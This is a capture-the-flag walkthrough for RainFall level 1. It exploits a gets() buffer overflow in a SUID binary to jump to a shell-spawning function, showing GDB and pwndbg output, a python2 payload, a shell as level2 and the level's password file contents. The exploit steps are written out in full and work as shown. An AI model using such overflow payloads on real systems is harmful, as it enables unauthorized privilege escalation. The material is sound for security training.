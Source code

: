 # Walkthrough for Level 1

## Overview

`level1` is a SUID binary owned by `level2`, so it runs with `level2`'s permissions when executed by any user.

```shell
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Understanding the Binary

After decompiling the `level1` binary with [Ghidra](https://github.com/NationalSecurityAgency/ghidra), we find two
functions: `main` and `run`.

The `main` function gets user input using the `gets` function and stores it in a buffer of 76 bytes. Since `gets` does
not check the length of the input, this program is vulnerable to a buffer overflow attack.

The `run` function spawns a shell and, since the SETUID is set for this binary, and it belongs to `level2`, the shell
will run with the `level2` privileges. However, the `fun` function is never called directly in our regular program flow.
We need to overwrite the return address of the `main` function with the address of the `run` function to execute it.
To do this, we need to craft an input that fills the buffer and then overwrites the return address of `main` with the
address of the `run` function.

## Finding the Address of `run`

We get the address of the `run` function using GDB; in this case, it is 0x08048444.

```shell
level1@RainFall:~$ gdb ./level1 
...SNIP...
(gdb) info fun
All defined functions:

Non-debugging symbols:
0x080482f8  _init
...SNIP...
0x08048444  run
0x08048480  main
...SNIP...
```

## Calculating the Offset

[Pwndbg](https://github.com/pwndbg/pwndbg) is a Python module that adds useful utilities and enhancements to GDB and
LLDB, making these debuggers easier to use. 
Inside we find `Pwn cyclic` which is a tool used to identify the exact location of a buffer overflow.

It works by generating a sequence of unique patterns, which can be inputted into a program. Once the buffer overflow is
achieved, the crash dump will contain part of this unique pattern. By analyzing the crash dump, we can pinpoint the exact
offset where the buffer overflow occurred.


```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ gdb ./level1       
...SNIP...
pwndbg> cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
pwndbg> run
Starting program: /home/kali/rainfall/level1/level1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────────────────────────────────
 EAX  0xffffd1c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EBX  0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
 ECX  0xf7f9b8ec (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x80484a0 (__libc_csu_init) ◂— push ebp
 EBP  0x61616173 ('saaa')
 ESP  0xffffd210 ◂— 0
 EIP  0x61616174 ('taaa')
...SNIP...
```

The register we are interested in is the EIP register, which contains the address of the next instruction to be
executed. We see that the EIP register contains the value 'taaa'. Using the cyclic -l command, we can find the offset in
the cyclic pattern that corresponds to this value. In this case, the offset is 76 bytes.

```shell
pwndbg> cyclic -l taaa
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
```

## Crafting the Payload

We use Python to create a payload consisting of 76 'A's followed by the address of the `run` function in little-endian
format, with the intention of overwriting the EIP register and redirecting the program flow to the `run` function.
We save the result to the file `/tmp/payload`.

```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ python2 -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload 
```

## Executing `run` function

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `run` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `id` command to verify that
the shell is running as the `level2` user. 

```shell
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
```

## Getting the Password

Finally, we can read the `.pass` file of `level2` to complete the level.

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We can now log in via SSH as the `level2` user using the password we just found.

